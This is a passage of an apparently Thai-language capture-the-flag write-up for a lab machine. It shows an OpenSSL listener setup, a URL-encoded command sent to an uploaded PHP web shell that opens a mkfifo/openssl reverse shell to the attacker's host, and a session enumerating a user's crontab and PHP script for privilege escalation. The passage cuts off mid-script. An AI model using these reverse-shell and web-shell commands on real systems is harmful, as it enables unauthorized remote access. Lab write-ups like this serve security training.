 
```bash

## Kali Open Reverse shell on 443 
sudo openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes;sudo openssl s_server -quiet -key key.pem -cert cert.pem -port 443


## Target using OpenSSL Shell to Kali 
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=mkfifo%20%2Ftmp%2Fs%3B%20%2Fbin%2Fsh%20-i%20%3C%20%2Ftmp%2Fs%202%3E%261%20%7C%20openssl%20s_client%20-quiet%20-connect%2010.10.14.6%3A443%20%3E%20%2Ftmp%2Fs%3B%20rm%20%2Ftmp%2Fs
```


# Priv to guly 

หาเราสำรวจ /home จะเห็น guly ซึ่งมีการ setup crontab ไว้ 

```bash
sh-4.2$ whoami 
whoami 
apache
sh-4.2$ pwd 
pwd 
/home/guly
sh-4.2$ ls -la 
ls -la 
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 May 30 03:47 user.txt
sh-4.2$ 
sh-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
sh-4.2$ cat /home/guly/check_attack.php
```

```php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
```